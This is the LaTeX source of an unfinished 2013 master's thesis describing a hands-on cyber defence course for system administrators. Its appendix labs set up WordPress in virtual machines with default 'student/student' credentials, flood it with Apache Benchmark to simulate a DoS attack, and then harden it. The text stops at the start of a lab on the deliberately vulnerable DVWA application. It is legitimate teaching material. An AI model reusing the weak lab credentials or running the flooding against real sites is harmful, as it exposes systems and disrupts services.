%xelatex -shell-escape  -synctex=1 -8bit  -interaction=nonstopmode %.tex
\documentclass[12pt,a4paper,oneside]{report}
%for unicode support in XeLaTeX
\usepackage{fontspec}
\setmainfont[Ligatures=TeX]{Linux Libertine O}


%for review uncomment following two lines (turn off hyphenation and ligatures before exporting to libreoffice to get comments)
%\usepackage[none]{hyphenat}
%\addfontfeatures{Ligatures={NoRequired, NoCommon, NoContextual}}


%fancy verbatim - with box
\usepackage{fancyvrb}
%\usepackage{fancybox}

\usepackage[usenames,dvipsnames]{xcolor}

%pdfpages - include pdf pages to latex document - for Subject Program
\usepackage{pdfpages}

%to produce dummy text for testing proposes
\usepackage{lipsum}

%for coloring syntax
\usepackage{minted}

%If you want use latex uncomment fontenc and inputenc
%for UTF8 fonts
%\usepackage[T1]{fontenc}
%\usepackage[utf8x]{inputenc}

%for custom enumerators like requirements 1, requirements 2 ...
\usepackage{enumitem} %for requirements enumeration

%Special colors for chapter titpes, sections, links and citations
\definecolor{chapters}{RGB}{68,40,138}
\definecolor{sections}{RGB}{68,40,138}
\definecolor{linkcolor}{RGB}{50,50,100}
\definecolor{citecolor}{RGB}{50,100,100}

%For mindmaps
\usepackage{tikz}
%\usetikzlibrary{mindmap,trees}
\usetikzlibrary{snakes,arrows,shapes,mindmap,trees}

\usepackage{ucs}
\usepackage{colortbl}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{url}
\usepackage{hyperref}
\hypersetup{
%   bookmarks=true,         % show bookmarks bar?
    unicode=true,          % non-Latin characters in Acrobat’s bookmarks
    pdftoolbar=true,        % show Acrobat’s toolbar?
    pdfmenubar=true,        % show Acrobat’s menu?
    pdffitwindow=false,     % window fit to page when opened
    pdfstartview={FitH},    % fits the width of the page to the window
    pdftitle={Hands-On E-learning Course on Cyber Defence for System Administrators},    % title
    pdfauthor={Margus Ernits},     % author
    pdfsubject={Master's Thesis},   % subject of the document
    pdfcreator={XeLaTeX with hyperref},   % creator of the document
    pdfproducer={XeLaTeX with hyperref}, % producer of the document
    pdfkeywords={cyber} {security} {thesis} {hands-on} {e-learning}, % list of keywords
    pdfnewwindow=true,      % links in new window
    colorlinks=true,       % false: boxed links; true: colored links
    linkcolor=linkcolor,          % color of internal links (change box color with linkbordercolor)
    citecolor=citecolor,        % color of links to bibliography
    filecolor=magenta,      % color of file links
    urlcolor=cyan           % color of external links
}
\usepackage{alltt}
\usepackage[xindy,toc]{glossaries}
\makeglossaries 
\usepackage{graphicx}
\graphicspath{{./illustrations/}}

% for resizing page
\usepackage[top=2.50cm, bottom=2.50cm, left=3.50cm, right=2.50cm, includefoot]{geometry}

% use space to separate paragraphs
\usepackage{parskip}
\setlength{\parskip}{0.50cm} 

%\usepackage{type1cm}
%\usepackage{lettrine}

% line spacing
\usepackage{setspace}
\onehalfspace

\usepackage{sectsty}
%\chapterfont{\color{blue}}  % sets colour of chapters
%\sectionfont{\color{cyan}}  % sets colour of sections
\allsectionsfont{\color{sections}}
%\chapterfont{\color{chapters}}


% change chapter title to be without word chapter
% http://www.latex-community.org/forum/viewtopic.php?f=4&t=638
\makeatletter
\renewcommand{\@makechapterhead}[1]{%
	\vspace*{50 pt}%
	{\color{chapters}\setlength{\parindent}{0pt} \raggedright \normalfont
	\bfseries\Huge\thechapter\ #1
	\par\nobreak\vspace{40 pt}}}
\makeatother

\usepackage{graphicx, type1cm, lettrine, blindtext}

\usepackage[round]{natbib}

% for adding bibliography to TOC
\usepackage[nottoc]{tocbibind}

% Change the name TOC to 
\renewcommand{\contentsname}{Table of Contents}

%fancy quotes
%\usepackage[helvetica]{quotchap} 
%\usepackage[utopia]{quotchap} 
%tikZ pictures
\usepackage{tikz}

\newglossaryentry{HITSA}
{
  name=HITSA,
  description={Hariduse Infotehnoloogia Sihtasutus}
}
\newglossaryentry{EITC}
{
  name=EITC,
  description={Estonian Information Technology College}
}
\newglossaryentry{EISA}
{
  name=EISA,
  description={Estonian Information System’s Authority, see \gls{RIA}}
}
\newglossaryentry{RIA}
{
  name=RIA,
  description={Riigi Infosüsteemi Amet}
}
\newglossaryentry{ITC}
{
  name=ITC,
  description={Information and communications technology}
}
\newglossaryentry{Cyber}
{
  name=Cyber,
  description={In this thesis Cyber used as Cyber-Space Security field}
}
 
%do remember run:
%makeglossaries thesis
\makeglossaries

\begin{document}
\title{Hands-On E-learning course on Cyber Defence for System Administrators}
\author{Margus Ernits}
\date{2013}

\begin{titlepage}
	\begingroup
		\singlespace
		\begin{center}
			TALLINN UNIVERSITY OF TECHNOLOGY \\
			Faculty of Information Technology \\
			Department of Computer Science \\
			Chair of Network Software
		
			\vfill
				Margus Ernits \\
				113902IVCMM \\[1.5cm]
				%\LARGE \textbf{Cyber Security e-course for System Administrators} \\[1cm]
				%hands-on laboratory
				%\LARGE \textbf{E-course on Cyber Defence for System Administrators} \\[1cm]
				\LARGE \textbf{The Hands-On E-course on Cyber Defence for System Administrators} \\[1cm]
				\normalsize Master's thesis \\[4cm]

				\begin{flushright}
					Supervisor: Rain Ottis, Ph.D \\
					Associate Professor \\
					Tallinn University of Technology
					
%%					Supervisor 2: Eesnimi Perenimi, MSc \\
%%					Lector, Tallinn University of Technology
				\end{flushright}
			\vfill

			Tallinn 2013
		\end{center}
	\endgroup
\end{titlepage}
\clearpage
\chapter*{Author’s Declaration}
\label{declaration}
\thispagestyle{empty}
I declare that this thesis is the result of my own research except as cited in the references. 
The thesis has not been accepted for any degree and is not concurrently submitted in candidature 
of any other degree.\\[2cm]

\begin{minipage}{0.5\textwidth}
	\begin{flushleft}
		......................... \\
		(Date) 
	\end{flushleft}
\end{minipage}
\begin{minipage}{0.5\textwidth}
	\begin{flushright}
	Margus Ernits \\
	........................ \\
	(Signature) 
	\end{flushright}
\end{minipage}

\clearpage
\chapter*{Annotatsioon}
\label{annotatsioon}
\thispagestyle{empty}
Annotatsioon...lühikirjeldus (1 lk). Kirjutan selle peatüki ühe viimasena. 


\clearpage
\chapter*{Annotation}
\label{annotation}
\thispagestyle{empty}


Annotation ... short max one page. I will write annotation as one of the last chapter...

\tableofcontents
\listoffigures
\listoftables
\printglossaries
\chapter{Introduction}
\label{Introduction}


Siin peatükis räägin EIKs õpetatavatest õppekavadest ja ainetest. Kirjeldan lühidalt süsteemide administreerimise hetkeseisu EIKs, Eestis ja regioonis ja maailmas. Kirjeldan vajadust anda IT süsteemide administreerijatele küberkaitse alaseid teadmiseid.
The Estonian Information Technology College \gls{EITC} is the leading IT institution of applied higher education in Estonia. \cite{EITC} \gls{EITC} is maintained by \gls{HITSA}

Toomase kirjale viide \gls{EISA}
\begin{itemize}
	\item Kirjeldan lühidalt hetkeolukorda
	\item Kirjeldan lühidalt hetkel olevat probleemi (IT adminnidele ei õpetata kuidas teenuseid turvata)
	\item Näitan, et praktilise töö osakaal peaks olemas suurem
	\item Praktilise töö mahtu saab suurendada, kui muuta kodutöö praktiliseks tööks distance lab abil
	
\end{itemize}

Lõputöö eesmärgid
\begin{itemize}
	\item Leida võimalus suurendada praktilise töö mahtu it administreerijate õppekavas
	\item Suurendada küberkaitse alaseid praktiliste oskuste andmist õppekavas
	\item Rakendada kaugtöölaborit praktilise ja mängulise õppe andmisel
\end{itemize}


Lõputöö oodatavad tulemused
\begin{itemize}
	\item Õppekava ainete analüüs arvestades küberkaitse temaatika suurenemist
	\item Loodud e-kursused ja õpiobjektid, mis on rakendatavad nii tasemeõppes, kui ka täiendusõppes
	\item Rakendatud kaugtöölabor loodud õppe toetamiseks
	\item Loodud metoodika õppejõule
	\item kogutud tagasiside õppuritelt ja õppejõududelt
\end{itemize}
\chapter{Analysis}
\label{analysis}
Analysis...
\url{http://www.qatar.cmu.edu/iliano/courses/12F-CMU-CS349/index.php?page=info} - uurida

\section{Problem Analysis}
\label{Problem Analysis}
Problem Analysis...
\begin{itemize}
	\item Küberjulgeoleku strateegia 2008-2013
	\item RIA sisend EIK-le
	\item EIK õppekavad pole turva poolelt muutunud peale nende tegemist
\end{itemize}

\section{Related Work}
\label{Related Work}
Related Work...
Panna siia lühikokkuvõte loetud teadusartikklitest IEEE*




\subsubsection{Random tags}
\begin{itemize}
	\item normal traffic generator
	\item malicious traffic generator
	\item availability monitor (for grading)
\end{itemize}

\section{Specialness of the e-learning}
\begin{itemize}
	\item Millal e-õpe töötab ja millal ei? Õppur peab rohkem pingutama [Chao: 11]
	\item Erinevad õpikeskkonnad ja nende sobivus antud õppeks
		\begin{itemize}
			\item Moodle
			\item Blackboard WebCT
			\item CISCO Network Academy
			\item Maurus
			\item IVA
			\item Sakai
			\item Wikiversity
			\item TUT Kaur course lab
		\end{itemize}
	\item virtual distance laboratory
	\item security aspects of distance laboratory
\end{itemize}

\section{Choosing Methodology for Developing an e-course}



The methodology used to develop this e-course should encourage student activity in learning process. Moreover student should have possibility to choice learning speed, -place and -time. Today's students have different learning style and background and methodology should reckon with individual differences...

Developed e-course should support people with disabilities. In \gls{EITC} several people have hearing disabilities and all important material should presented also without audio. For example in screen casts videos all important information should be written also in screen or added as transcript.

Today’s learning environment should support student communities where students can act as mentors and also feel part on the study program. Course integration with student driven initiative like forums, blogs, wiki pages and other collaboration learning methods should be possible and not restricted.

\subsection{E-course design methodologies}

Several methodologies are suitable to develop e-courses. \gls{ADDIE Model}

Methodology 
ADDIE is short for Analyze, Design, Develop, Implement, and Evaluate \url{http://ed.isu.edu/addie/index.html}
\url{http://www.regent.edu/admin/ctl/coursedesign/home.cfm}
Weaknesses of the ADDIE Model \url{http://www.instructionaldesign.org/models/addie_weaknesses.html}
\url{http://www.learningsolutionsmag.com/articles/1012/}

\url{http://rjh.goingeast.ca/2011/07/05/design-research-for-online-learning-course-design-edumooc/} - uurida

\section{Alalysis of the e-course}
\subsection{Analysis of target group}
The target group are second and third years students who already mastered basics of operating systems.
The System Administrator's Job

\subsection{Analysing of the requirements and establishing goals for e-course}
\subsection{Analysing of restrictions and scope}
\subsection{Analysis of content of the course}
\section{Planning of learning process}
\subsection{Pedagogical view of e-course}
\subsection{Planning grading techniques}
\subsection{Choosing technological tools}

\section{Implementation of the e-course}

\subsection{Developing learning material}
\subsection{Text based learning material}
\subsection{Audio/Visual learning material}
\subsection{Interactive learning material}
\subsection{Online tests and laboratory scenarios}
\subsection{õpijuhis }
\subsection{technical implementaion}
\subsection{testing course}
\section{Kursuse läbiviimine}
\subsection{Organizational role}
\subsection{Social role}
\subsection{Pedagogical role}

\section{Cyber security aspects of the e-learning}

\chapter{Solution}
\label{solution}
Solution...

\chapter{Evaluation of the E-learning Course}
\label{Evaluation of the E-learning Course}
\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}T}{he}  evaluation phase of the ADDIE Model...
\begin{enumerate}
\item Formative Evaluation
\item Summative Evaluation
\end{enumerate}

Each part of the processes step needs evaluation - this is formative evaluation.

1. one-to-one - üks sihtgrupist, küsi clarity, impact - kas oli abiks, feasability - kui praktiline (enne tuleb assessment questions kirja panna)
2. small group  - different subgroups in group asses clearity,impact, feasibility. Näiteküsimused: Kas juhend oli huvitav= Kas juhend oli arusaadav? Kas materjalid olid seotud väljunditega, kas said piisavalt tagasisidet
3. field trial -  real-time rehersal (assess clarity,impact, feasibility.


\section{Feedback from Students and Lecturers}

During evaluation the learning materials tested by four different groups:

\begin{itemize}
\item Foreign system administrators (mostly GNU/Linux and network administrators)
\item Estonian IT system administrators (with different backgrounds)
\item International students during Intensive Programme
\item Estonian Students and Distance learners
\end{itemize}


All groups assessed the course very valuable and interesting. Most of the students stated, that course was too hard (because lack of GNU/Linux knowledge). Most of the students valued good balance between practical work and theoretical reading/(video)lectures. For many people the learning materials where too difficult to follow during time given. Therefore author proposed to rise \gls{ECTS} for course from 5 points  to 6 \gls{ECTS} points.



During pilot courses in fall 2012 and spring 2013 standard course feedback collected from students. 

Feedback from students (feedback from Study Information System)
Grade for course  (4.9 -- distance learners, 4.6 -- students, max is 5) 
Grade for lecturer (4.9 -- distance learners, 4.8 -- students)
Feedback from continuous education students
Grade for course (2.9 max is 3)
Grade for lecturer (2.9 max is 3)



Feedback from two lecturers, one \gls{EITC} and other from Vaasa University of Applied Sciences (web application security labs)
Too intensive to so limited time
Too much work (preparing for lab needs work before every course)


Summative evaluation - prove the worth of evaluation
\begin{enumerate}
\item reaction to question (instructions where clear and easy to understand to me?) (strongly disagree, disagree, neutral, agree, strongly agree) few open-ended questions - about owerall strength and weaknesses of the course NB anonymous feedback
\item learning - typicaly Post-test and achievement test. skills - performance test, attitudes -questionaries
\item behaviour - kas kasutatakse seda teadmiseid
\item results profits, productivity, morale
\end{enumerate}

Grade for course  (4.858 – distance learners, 4.6 – students)
Grade for lecturer (4.88 – distance learners, 4.8 - students) \footnote{\url{https://wiki.itcollege.ee/images/2/28/It-infra-tagasiside-2012-2.pdf}}\footnote{\url{https://wiki.itcollege.ee/images/4/4d/It-infra-tagasiside-2012-1.pdf}}

{\color{red}
http://www.creativeagni.com/instructional-design-articles/instructional-design-model-ADDIE-for-course-training-development.html
  
Evaluation. Well. You know how we’ve got this fetish for evaluating everything – including courses and trainings. The competitive spirit of humans wouldn’t let us exist without the grand finale – the Evaluation! The main reason behind evaluating training programs and courses is to improve them by addressing the issues that the audience faced. Another important reason for evaluating training effectiveness lies in the fact that the training department needs to provide data on how their programs improve the organization’s profitability. Evaluation helps us establish the usefulness of a training program.
Evaluation comes in two variations (I love the first kind – the second is a bitter medicine – it isn’t easy to swallow!)

Formative Evaluation
Summative Evaluation
Formative Evaluation is done to identify and then remove the glitches in the content development effort. This is a pre-implementation activity (sometimes, a mock implementation is done for formative evaluation.) For the course that we created for the Martians, we could conduct a formative evaluation by 1. asking Mars returned Earthlings or 2. asking a test-group of Martians, to take the course.

Summative Evaluation is the final evaluation the evaluation done to determine the effectiveness of the training program or course. The most popular model for conducting Summative Evaluation is the Kirkpatrick Model, but the model deserves a separate article.

I believe that ADDIE is the most logical, the most generic, and the most adaptable Content Development Model of all. Get creative, use your logic and carve out your own development model from ADDIE. Trust ADDIE’s generosity - it’s always ready to show you the way.
}
\chapter{Future Research}
\label{Future Research}

\lettrine[lraise=0.1, nindent=0em, slope=-.5em]{\color{Violet}I}{deas} for improvement are collected during lab sessions, preparation and development phase and big number of smaller proposals makes impossible to list all of them. However, some bigger areas what would influence a future of this particular course or sequel course are listed. Moreover, the critical development proposals for distance laboratory system are enlisted.

Most important problems stayed unresolved with no particular order:
First, Human aspect of the cyber defence - configuring boxes are only one aspect of cyber. 
Second, maintaining central logging and log parsing
Third, installing, and managing a \gls{IDS}/\gls{IPS} system (simpler aspects covered by  \gls{WAF} and \gls{SQL} firewalls in webserver hardening lab.
Fourth, a configuring e-mail system with antivirus, and spam filtering
Fifth, authentication and authorization with Kerberos, LDAP, SAMBA4 domain.
Sixth, the IPv6 is mandatory for newer infrastructure and this need to be implemented into each lab.

Some topics covered are ageing a file server as example. However, the new approaches like OwnCloud private cloud systems are not common today but this may change soon.

The development process of curriculum ends when curriculum itself is obsolete. Therefore additional seminars with partners, other educational institutions and private companies will be carried out. For example the next phase is collect information about Locked Shield 2013 and needed skill set for technicians and also other aspects that system administrators should cope.

Although, a feels that more should be done in the future compared to the work done, all aspects can not be implemented during one e-learning course with load of 6~\gls{ECTS}. Therefore a new areas for possible e-learning courses are listed in Appendix~\ref{Appendix:Lab proposals for the future} on page~\pageref{Appendix:Lab proposals for the future}.

To supporting new scoring system with implementing badge reward system, the virtual laboratory system will redesigned in summer 2013.
\chapter{Conclusion}
\label{conclusion}
Conclusion...

%\renewcommand\bibname{references}
%\bibliographystyle{plainnat}
\bibliographystyle{abbrvnat}

%\bibliography{references}
\bibliography{references}
\appendix
\newgeometry{margin=2cm}
% change chapter title to be without word chapter
% http://www.latex-community.org/forum/viewtopic.php?f=4&t=638
% appendicies do not need space in beginning of the chapter
\makeatletter
\renewcommand{\@makechapterhead}[1]{%
	\vspace*{1 pt}%
	{\color{chapters}\setlength{\parindent}{0pt} \raggedright \normalfont
	\bfseries\Huge\thechapter\ #1
	\par\nobreak\vspace{1 pt}}}
\makeatother

\chapter{Letter from CERT.EE to Rector of Esonian IT College}
\label{Letter from CERT.EE to Rector of Esonian IT College}
\begin{spacing}{1}
\small
%\begin{alltt}
---Original Message-----

From: CERT.EE töötaja\par
Sent: Tuesday, February 10, 2009 3:55 PM \par
To: Eesti Infotehnoloogia Kolledž Rektor \par
Cc: ***** \par
Subject: Täiendkoolitus\par

Tere
Meil on üks probleem  :
Pole piisavalt haritud administraatoreid omavalitsustes ja 
muudes riigiasutustes ning väikese ja keskmise suurusega organisatsioonides.

Probleem jaguneb mitmeks väiksemaks alam probellmiks :
enamik administraatoreid on nn iseõppijad (mis on muidugi tore!)
ja omandanud [hädapärased] teadmised ja kogemused töö käigus
kutse ja rakenduskõrghariduse raames ei anta õpilastele juur- ja
 turvateenuste alal vajaliku põhjalikusega teadmisi 
(vahest on liiga vara spetsialiseeruda ?!)

täiendkoolituse turul olemas vaid tootjate endi tarkvaratoodete põhised kursused 
(tihti kontori tarkvara üldkursused)

tegelik üldine teadmiste ja oskuste tase sihtrühmas 
ei ole piisav hästi toimiva süsteemi haldamiseks 
ega tõrgete kõrvaldamiseks
Täiendkoolituse turul puuduvad nimetatud sihtrühmale 
vajalikud kursused.

Nii võiks välja näha kohaliku omavalitsuse itimehe ja ülemuse arenguvestluse üks osa:
itimees: Tahan minna nädalaks koolitusele, maksab 15 tuhat, see teeb vaid 3 tuhat ühe päeva eest. ülemus ütleb: Oota, mõtleme, aga nädalaks sind ära lasta ei saa ja kallis on see ka, ikkagi 15 tuhat ülemus mõtleb: .oO(saadad koolitusele, ja pärast läheb teise kohta suure palga peale, las parem sekretär käib wördi koolitusel ära)

Lahendus :
Valitsus (?HM, MKM, KM?), veel parem EU maksab keskelt kinni kursuste ettevalmistamise ja 3 aasta jooksul sihtrühma koolituse plaan sihtrühma koolituseks :

a) ette valmistada nädalased kursused (40 x 45 min) järgnevatel teemadel

!) kõik kursused OpenBSD baasil, kuna *BSD perekond on laialt levinud platform juurteenuste jaoks ja võimalik saadud teadmisi ja oskusi rakenda laiemalt kui vaid ühe tootja/tarkvara puhul \emph{mida oligi vaja} ;)

\begin{itemize}
	\item[0)] sissejuhatus: IPv4/IPv6, TCP/IP, kahendarvutused.... (anda alused järgmistele kursustele)
	\item[1)] tulemüüri ülespanek, seadistamine ja igapäevane haldus
	\item[2)] aja- ja nimeteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[3)] veebiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[4)] postiteenuse ülespanek, seadistamine ja igapäevane haldus
	\item[5)] logihalduse ülespanek, seadistamine ja igapäevane haldus
	\item[6)] ründetuvastus ja intsidentide halduse süsteemi ülespanek, seadistamine ja igapäevane haldus
	\item[7)] Loov probleemi lahendus ja haldus.

\end{itemize}


b) viia koolitusi läbi kahe aasta jooksul

TULEMUS:
suurem enamus väikese ja keskmise suurusega organistasioonide juurteenuste administraatoreid oskab oma tööd heal või keskmisel tasemel.


Lahendusele me oleme leidnud mõningad allikad mis eeldavad kutse või kõrgharidusega tegeleva asutuse kaasamist või isegi talle projektis vedava rolli andmist.
Hea meelega saaks teiega järgmisel nädala esimesel poolel teiega kokku ja räägiks meie poolsest nägemusest lahendustele ning kuulaks teie poolset arvamust idee räideviimise võimaluste kohta .

Lugupidamsiega ....
%\end{alltt}
\end{spacing}
\normalfont


\chapter{Preliminary Tests}
\label{Preliminary Tests}

To gather information about background of the students and distance learner following questions were used (not all questions in every test but subset of them). For students a most of quorum passed the test with more then 50\%. However, in continuous education the percentage is smaller and remains \textasciitilde 10\%. 

\begin{table}[h]
\centering
\caption{The questions and comments for preliminary test}

\begin{tabular}{|p{7cm}|p{2cm}|p{5cm}|}
\hline 
\color{blue}
Question & \color{blue} Percentage of correct answers & \color{blue} Comments \\ 
\hline 
What is stored in \$PATH environment variable? & \textasciitilde 60\% & This question is for ...\\ 
\hline 
Which IP settings minimally  need to be configured to connect a host to local LAN? & \textasciitilde 50\% & Usually too many  parameters are chosen\\ 
\hline 
What is the difference between buffer and cache? Are these the same things? &\textasciitilde 20\% & Most people just do not know how to explain the difference  \\ 
\hline 
What is the difference between virtual memory and swap? Are these the same? & \textasciitilde 10\%  &   \\ 
\hline 
What is the difference between authorization and authentication? Are these the same things? & \textasciitilde 30\% & Same level for students and  for continuous education \\ 
\hline 
How many primary partitions can be made to hard-disk? (in case of BIOS equipped computer) & \textasciitilde 50\% & Students forgot and others do not know  \\ 
\hline 
What are the differences between public key and certificate?  & \textasciitilde 10\% & Matter of a lack of explanation skill \\ 
\hline 
You have the directory
 \emph{/home/student} with following permissions: 
 \emph{-rw-r--r-- 1 root root 0 2013-05-01 09:11 file.txt}
 in \gls{GNU/Linux} Can user student delete this file? &  \textasciitilde 10\% &Students should know that file can be deleted.  \\ 
\hline 
\end{tabular} 

\label{tab:preliminary_test}
\end{table}

Some samples of practical prelimery tests are given in Table~\ref{tab:preliminary_practical_test}.
\begin{table}[h]
\centering
\caption{The practical preliminary tests}
\scriptsize{
\begin{tabular}{|p{1cm}|p{13cm}|}
\hline 
\color{blue}
Variant & \color{blue} Link to the test  \\ 
\hline 
1 & \url{https://docs.google.com/document/d/1KPMH1uvNYhBiLerH_5yQsEurbWiIWi1u5rilkyXFDTQ/edit}\\
2 & \url{https://docs.google.com/document/d/1GfGyQnQSvx7hah0J47izDUOGr0cuCBIcekHkPK_L0Yg/edit}\\
3 & \url{https://docs.google.com/document/d/1u0spdgCuCPGFSeEymgZuVui-i8m9zyivTTxujTcEmzE/edit}\\
4 & \url{https://docs.google.com/document/d/1htv1jmWHGkymhqUWJ6g1OLl4CV5xHEiDq88eZa2QLDs/edit}\\
\hline
\end{tabular} 
}
\label{tab:preliminary_practical_test}
\end{table}

%Preliminary course about dpkg based GNU/Linux
\chapter{Preliminary course GNU/Linux}
\label{Preliminary course - dpkg based GNU/Linux}
\begin{figure}[H] 
 \centering 
 \includegraphics[scale=0.48,angle=90]{pre-requirements-course.pdf}
 \rule{25em}{0.5pt}  
 \caption{Topics covered in preliminary course (MindMap)} 
 \label{Topics covered in preliminary course} 
\end{figure}



\chapter{Protecting Web Application Against (D)DOS Attacks}
\label{Protecting Web Application Against (D)DOS Attacks}
\section{Introduction}
\section{Pre-Requirements} 
\section{Scope}
\section{Learning Outcomes} 
\section{Setting up the Virtual Environment} 

In this lab we use two Ubuntu Linux virtual machines.
Ubuntu server 512MB RAM, NIC1 - NAT, NIC2 - HostOnly with address 192.168.56.200
Ubuntu client 1GB RAM NIC1 - NAT, NIC2 - HostOnly wid dynamic address. (probably 192.168.56.101)
Download virtual machines to local disk
\url{http://elab.itcollege.ee:8000/infra_klient_small.ova}
\url{http://elab.itcollege.ee:8000/infra_server.ova}

Import virtual machines (If your host computer has only 4GB RAM, then reduce client machine memory to 1GB)

Start both machines. 

{\small{If you got an error about host only network then open Main Menu, choose File Preferences and choose Network and add Host Only Network.}}

Username and password for both machines are student, student.

Username: student
Password: student
Student user are in sudo group and can start administrator shell with sudo command.

Log on to client and add two addresses on /etc/hosts
\begin{minted}[frame=lines,framesep=2mm]{bash}
echo "192.168.56.200	wp.planet.zz">>/etc/hosts
echo "192.168.56.200	dvwa.planet.zz">>/etc/hosts
\end{minted}

\section{Installation of the WordPress}
All following commands must executed as root user. To get root permissions in Ubuntu Server used in this lab type:

\mint[frame=lines, framesep=1mm]{bash}|sudo -i|


This lab demands installing software for that update local package cache first
\mint[frame=lines, framesep=1mm]{bash}|apt-get update|

If you have time then do system upgrade
\mint[frame=lines, framesep=1mm]{bash}|apt-get dist-upgrade|

Install apache webserver and mysql database and 
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql 
apt-get install apache2-utils libapache2-mod-php5
\end{minted}

Download latest version of WordPress
\mint[frame=lines, framesep=2mm]{bash}|wget http://wordpress.org/latest.tar.gz|

Unpack tar.gz archive to  /var/www directory using tar utility.

\mint[frame=lines, framesep=2mm]{bash}|sudo tar zxvf latest.tar.gz --directory=/var/www/|

Creade new mysql database called wp and database user student. Grant all privileges on database wp to user student.

\begin{minted}[frame=lines, framesep=2mm]{bash}
mysql -u root -p
create database wp;
create user student;
GRANT ALL PRIVILEGES ON wp.* TO 'student'@'localhost' IDENTIFIED BY 'student';
quit
\end{minted}

Create new virtual host for wordpress 
\marginpar{\rule[-.9cm]{1pt}{1pt}TODO}
\mint[frame=lines, framesep=2mm]{bash}|cp /etc/apache2/sites-available/default /etc/apache2/sites-available/wp|
Change owner and group for wordpress files to ensure that web server can read and write files.
\mint[frame=lines, framesep=2mm]{bash}|chown www-data:www-data /var/www/wordpress -R|

Change root directory (DocumentRoot) for new virtualhost and add server name field (ServerName) to virtualhosts configuration file   /etc/apache2/sites-available/wp


\begin{minted}[frame=lines, framesep=2mm]{bash}
ServerName	wp.planet.zz
#DocumentRoot /var/www
DocumentRoot /var/www/wordpress
\end{minted}


To enable new virtualhost for WordPress use a2ensite utility
\mint[frame=lines, framesep=2mm]{bash}|a2ensite wp|

Change wordpress configuration file
/var/www/wordpress/wp-config-sample.php

Set correct values for defines DB\_NAME, DB\_USER, DB\_PASSWORD as:

define('DB\_NAME', 'wp');

/** MySQL database username */
define('DB\_USER', 'student');

/** MySQL database password */
define('DB\_PASSWORD', 'student');


Copy sample file to real config file:
\mint[frame=lines, framesep=2mm]{bash}|cp  -a /var/www/wordpress/wp-config-sample.php /var/www/wordpress/wp-config.php|

Reload apache configuration files:
\mint[frame=lines, framesep=2mm]{bash}|service  apache2 reload|

Go to address http://wp.planet.zz/ using web browser.

Enter values for  Site Title, username, password and an e-mail

Choose Install

\subsection{Testing Your WordPress Installation against sipler DOS attacks}


How many requests default installation will serve? (parallel connections, requests/second)
Install apache2 utils on CLIENT computer, not in the server computer.

\begin{minted}[frame=lines, framesep=2mm]{bash}
sudo apt-get update
sudo apt-get install apache2-utils
\end{minted}

For Fedora/CentOS/RH/Oracle Linux install httpd-utils package.

Execute Apache Benchmark program ab
\begin{minted}[frame=lines, framesep=2mm]{bash}
ab -c<NO_CONN> -t<TIME> http://wp.planet.zz/
\end{minted}
flag c - parallel connections
flag t - time for test

\mint[frame=lines, framesep=2mm]{bash}|ab -c600 -t20 http://wp.planet.zz/|

In last example the ab utility makes 600 parallel connections and test takes 20 seconds.
Test results
Store test results and the command line used for tests.
Write down request per second. No of failed requests and No of completed requests.

\subsection{Hardening WordPress Installation}

What is the OOM?

Disable swap (edit /etc/fstab file or use swapoff command)


\mint[frame=lines, framesep=2mm]{bash}|swapoff -a|

Disable OOM killer for MySQL database. In newer kernels write -1000 to oom\_score\_adj file.

\mint[frame=lines, framesep=2mm]{bash}|echo "-1000" > /proc/$(pidof mysqld)/oom_score_adj|
%$
For backward compatibility with old kernels (2.6.XX series) you can use oom\_adj file
\mint[frame=lines, framesep=2mm]{bash}|echo "-17" > /proc/$(pidof mysqld)/oom_adj|
%$

Documentation about proc filesystem and OOM:
\url{http://www.kernel.org/doc/Documentation/filesystems/proc.txt}

Not mandatory task: Modify mysql startup script to tune OOM score. 

WordPress Supercache
Install WordPress Supercache plugin.
Change Permalinks settings
Test cache with AB

Install Varnish HTTP cache
Change apache default port to 8080
In file /etc/apache2/ports.conf
Change 80 > 8080
Like:
NameVirtualHost *:8080
Listen 8080

Or just download new file using wget 

cd /etc/apache2
mv ports.conf /root/ports.conf.old
wget http://elab.itcollege.ee:8000/Configs/apache2/ports.conf

Change all virtual hosts to use new 8080 port using text editor or sed command.

\mint[frame=lines, framesep=2mm]{bash}|sed 's/:80>/:8080>/' -i /etc/apache2/sites-enabled/wp|


Install varnish and change varnish default port from 6081 to 80
apt-get install varnish
change /etc/default/varnish configuration file
Change line
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:6081 \ |
to
\mint[frame=lines, framesep=2mm]{bash}|DAEMON_OPTS="-a *:80 \|

This means that varnish will listen port 80 on webserver

Restart apache and varnish services

service apache2 restart
service varnish restart

Test your result using netstat command

\mint[frame=lines, framesep=2mm]{bash}|netstat -lp | grep varnish|

Test new system with AB utility.

Links:
\href{http://kaanon.com/blog/work/making-wordpress-shine-varnish-caching-system-part-1}{Making wordpress shine with Varnish caching system}
\href{http://kaanon.com/blog/varnish/making-wordpress-shine-varnish-caching-system-part-2}{Making wordpress shine with Varnish caching system part 2}
\href{http://www.google.com/producer/editions/CAowvZtX/full_circle_magazine_57_lite}
{Full Circle Magazine 57}



\chapter{Protecting an Insecure Web Application}
\label{Protecting an Insecure Web Application}

\begin{quote}
I will newer blindly copy paste commands from manuals specially when logged as root! -- Experienced IT system administrator.
\end{quote}

\section{Introduction}

The hands-on laboratory is mean to teach system administrator's how to protect insecure web application from common attacks like injection's, \gls{XSS}, \gls{CSRF}, brute force, file upload and file inclusion. Damn Vulnerable Web Application \gls{DVWA} is used as role of insecure application. Several vulnerable web application  alternatives exists \url{http://blog.taddong.com/2011/10/hacking-vulnerable-web-applications.html}


\subsection{Lab Scenario}
Lab participant acts as system administrator for small company which has several web applications. One legacy application is tremendously vulnerable for common type of attacks. Company ordered new web application to replace old and vulnerable service. However old application must survive at least few month's before being replaced. Till that time system administrator have high criticality task  to protect this vulnerable system. Blocking IP addresses is not a solution because client's requests can be originated from any location, although fixing all programming errors takes too long and new version of software was developed for that purposes.



\section{Pre-Requirements}
This hands-on laboratory is designed to students who have knowledge and skills for working with GNU/Linux command line, basic networking and HTTP(S) and understanding text editing.
\par
Students must have possibility to run at least two virtual machines with configuration seen in table~\ref{table:HW for DVWA}

\begin{table}
\centering
\caption{Hardware requirements for DVWA lab}
\begin{tabular}{|c|c|c|}
\hline 
